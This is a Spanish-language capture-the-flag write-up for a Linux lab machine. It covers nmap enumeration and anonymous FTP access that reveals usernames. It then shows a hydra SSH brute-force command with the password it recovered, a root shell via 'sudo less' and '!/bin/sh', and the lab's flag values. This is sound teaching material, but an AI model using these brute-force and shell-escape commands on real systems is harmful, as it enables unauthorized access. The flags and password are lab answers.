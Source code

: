 
---

#### Reconocimiento y Enumeración 

- Maquina *Linux*

- Escaneo de Puertos

```java
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

- Scripts de reconocimiento y Versiones 

```java
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.23.197.56
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- Script de vulnerabilidades 

```java
❯ nmap -p21,22,80 --script "vuln" 10.201.36.142
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-28 16:04 -05
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.201.36.142
Host is up (0.24s latency).

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
```

---

#### Explotación 

- Podemos ver que el puerto 21 en la enumeración esta con una sesión de Anonymous, por lo cual accedemos a ella y nos encontramos con el siguiente txt que nos plantea diferentes usuarios

![[Pasted image 20251028161019.png]]

- *amy* , *jake* , *holt* 

- Como dicen que jake es el que tiene la contraseña mas insegura procedemos a realizar un ataque de fuerza bruta por el puerto 22 ssh 

```bash
hydra -l jake -P /usr/share/wordlist/rockyou.txt ssh://<IpVictima>
```

- Encontramos que para el usuario *jake* la contraseña es de *987654321*

- Nos conectamos via ssh y podemos ver que podemos entrar a otros directorio de usuarios como los directorios de *holt* y los directorios de *amy* , el directorio de *holt* tiene la primera flag de usuario la cual es *ee11cbb19052e40b07aac0ca060c23ee*

---
#### Escalada de Privilegios

- Escalamos privilegios de la siguiente forma

```bash
sudo -l   # Vemos los binarios de los cuales tenemos permisos y nos aparece el binario /usr/bin/less el cual lo buscamos en GTFobins

sudo less /etc/profile    # GTFobins nos dice que hagamos esto para escribir el fichero /etc/profile como root y lanzarnos una bash
!/bin/sh
```

- Ya siendo root y encontrando la ultima flag la cual es : *63a9f0ea7bb98050796b649e85481845*


